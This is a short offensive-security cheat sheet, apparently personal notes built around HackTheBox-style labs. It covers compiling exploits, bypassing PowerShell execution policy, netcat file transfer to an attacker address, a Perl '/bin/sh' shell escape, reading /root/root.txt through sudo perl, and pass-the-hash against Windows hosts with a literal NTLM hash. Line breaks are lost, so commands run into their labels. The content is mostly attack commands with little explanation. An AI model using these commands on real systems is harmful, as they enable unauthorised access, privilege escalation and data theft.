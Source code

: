 # **MISC**

**Compiling Exploits**

```
gcc -o exploit exploit.c#Compile C code, add –m32 after ‘gcc’ for compiling 32 bit code on 64 bit Linuxi586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe​Cross compilingCompile Windows exploit in Linuxi686-w64-mingw32-gcc 18176.c -lws2_32 -o 18176.exe​Compile Python script to executablewine ~/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onefile exploit.py
```

**Packet Inspection**

```
tcpdump tcp port 80 -w output.pcap -i eth0​
```

**Powershell bypass**

```
Powershell: powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1​
```

**Window Exploit Suggester**

```
 ./windows-exploit-suggester.py -d 2019-07-20-mssb.xls -i system.txt
```

**Finding Auxiliary**

```
 ls /usr/share/nmap/scripts/ | grep smb | grep vuln​
```

**Netcat**

```
From attacker to targetAt targetnc -lvp 6969 > blah.txtAt attacker (method 1)nc x.x.x.x 6969 < blah.txtAt attacker (method 2)cat blah.txt | nc x.x.x.x 6969
```

**Perl Exploit**

```
Perl Exploitperl —e 'exec "/bin/sh";'sudo perl -F: -lane 'print $F[0]' /root/root.txt
```

**Awk**

```
Remove duplicate lines:awk '!seen[$0]++' file
```

**Searchsploit**

```
searchsploit --overflow --exact --mirror 21234​ searchsploit --overflow --exact Gwolle
```

**Firewall Rule Enable**

```
firewall rule enableufw allow from victimip to any port 80,443 proto tcp​
```

**Wordlist Creation**

```
Wordlist creation:cewl -w cewl-forum.txt -e -a http://forum.bart.htb
```

**PASS the HASH**

```
​Pass the hash :pth-winexe -U jenkins/administrator //ip cmd.exepth-winexe -U jenkins/administrator%password //ip cmd.execrackmapexec​ pth-winexe --user=jeeves/administrator%aad3b435b51404e eaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 --system //10.10.10.63 cmd.exe​
```

**Share folder Windows to linux**

```
mount -t fuse.vmhgfs-fuse .host:/ /mnt/hgfs -o allow\_other
```